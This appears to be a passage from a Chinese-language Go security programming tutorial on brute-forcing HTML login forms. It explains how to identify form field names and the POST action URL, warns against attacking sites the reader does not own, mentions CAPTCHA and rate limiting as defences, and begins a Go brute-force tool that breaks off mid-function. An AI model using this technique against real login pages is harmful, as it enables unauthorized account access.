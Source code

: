 # 暴力破解 HTML 登录表单

几乎每个具有用户系统的网站都在网页上提供登录表单。我们可以编写一个程序来重复提交登录表单。这个例子假设在 Web 应用程序上没有 CAPTCHA、速率限制或其他阻止机制。请记住不要对任何生产站点或您不拥有或没有权限的站点执行此攻击。如果您想测试它，我建议您设置一个本地 Web 服务器并仅在本地测试。

每个网络表单都可以使用不同的名称创建`用户名`和`密码`字段，因此这些字段的名称需要在每次运行时提供，并且必须特定于目标 URL。

查看源代码或检查目标表单，以获取输入元素的`name`属性以及`form`元素的目标`action`属性。如果`form`元素中没有提供操作 URL，则默认为当前 URL。另一个重要的信息是表单上使用的方法。登录表单应该是`POST`，但有可能编码不好，使用了`GET`方法。有些登录表单使用 JavaScript 提交表单，可能完全绕过标准的表单方法。使用这种逻辑的站点需要更多的逆向工程来确定最终的提交目的地和数据格式。您可以使用 HTML 代理或在浏览器中使用网络检查器查看 XHR 请求。

后面的章节将讨论 Web 爬取和在`DOM`接口中查询特定元素的方法，但本章不会讨论尝试自动检测表单字段并识别正确的输入元素。这一步必须在这里手动完成，但一旦识别出来，暴力攻击就可以自行运行。

为了防止这样的攻击，实施一个 CAPTCHA 系统或速率限制功能。

请注意，每个 Web 应用程序都可以有自己的身份验证方式。这不是一刀切的解决方案。它提供了一个基本的`HTTP POST`表单登录示例，但需要针对不同的应用程序进行轻微修改。

```go
package main 

import ( 
   "bufio" 
   "bytes" 
   "fmt" 
   "log" 
   "net/http" 
   "os" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force HTTP Login Form 

Passwords should be separated by newlines. 
URL should include protocol prefix. 
You must identify the form's post URL and username and password   
field names and pass them as arguments. 

Usage: 
  ` + os.Args[0] + ` <pwlistfile> <login_post_url> ` + 
      `<username> <username_field> <password_field> 

Example: 
  ` + os.Args[0] + ` passwords.txt` +
      ` https://test.com/login admin username password 
`) 
} 

func checkArgs() (string, string, string, string, string) { 
   if len(os.Args) != 6 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Password list, Post URL, username, username field, 
   // password field 
   return os.Args[1], os.Args[2], os.Args[3], os.Args[4], os.Args[5] 
} 

func testLoginForm( 
   url, 
   userField, 
   passField, 
   username, 
   password string, 
```